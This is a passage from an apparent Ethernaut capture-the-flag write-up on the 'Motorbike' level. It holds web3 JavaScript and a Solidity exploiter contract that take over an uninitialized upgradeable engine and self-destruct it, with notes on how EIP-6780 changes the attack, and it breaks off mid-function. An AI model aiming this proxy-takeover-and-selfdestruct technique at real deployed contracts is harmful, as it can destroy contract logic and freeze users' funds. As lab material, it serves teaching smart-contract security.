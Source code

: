 ```javascript
        {
            type: 'bytes',
            name: 'data'
        }
    ]
}
upgradeData = web3.eth.abi.encodeFunctionCall(upgradeSignature, [selfDesturctContractAddress, selfDestructSig])
await web3.eth.sendTransaction({from: player, to: contract.address, data: upgradeData})
```
And that's it :)

Again, this should work for blockchain networks, where EIP-6780 is not implemented.

Next, let's see how we can solve this level with EIP-6780.

The behaviour of `selfdestruct` is only preserved if the contract is created and
destroyed in the same transaction. 

What does that mean for us? We have to create a contract, which is going to
request a new instance, and then destroy the instance in the same transaction.

Here a contract which does that:

```solidity
interface Engine {
    function initialize() external virtual;
    function upgradeToAndCall(address newImplementation, bytes memory data) external virtual;
}

contract MotorbikeExploiter {

    address constant ethernaut = 0xB877915d8Ba049e7cAFc1525F85CEc322A362767;
    address constant motorbikeLevel = 0xC0327531E3Be9A60566509d790aC89e99bd302C8;
    address motorbike;

    function exploit(uint256 nonce) public {
        (bool success,) = ethernaut.call(abi.encodeWithSignature("createLevelInstance(address)", motorbikeLevel));
        require(success, "Failed to create motorbike instance");

        Engine engine = Engine(computeAddress(motorbikeLevel, nonce));
        motorbike = computeAddress(motorbikeLevel, nonce + 1);

        engine.initialize();
        engine.upgradeToAndCall(address(this), abi.encodeCall(this.destroyEngine, ()));
    }

    function submitLevelInstance() public {
        // submit the instance
        (bool success,) = ethernaut.call(abi.encodeWithSignature("submitLevelInstance(address)", motorbike));
        require(success, "Failed to submit level instance");
    }

    function destroyEngine() external {
        selfdestruct(payable(0));
    }

    function computeAddress(address deployer, uint256 nonce) public pure returns (address) {
        // The integer zero is treated as an empty byte string, and as a result it only has a length prefix, 0x80, computed via 0x80 + 0.
        if (nonce == 0x00)      return addressFromLast20Bytes(keccak256(abi.encodePacked(bytes1(0xd6), bytes1(0x94), deployer, bytes1(0x80))));
        // A one byte integer uses its own value as its length prefix, there is no additional "0x80 + length" prefix that comes before it.
```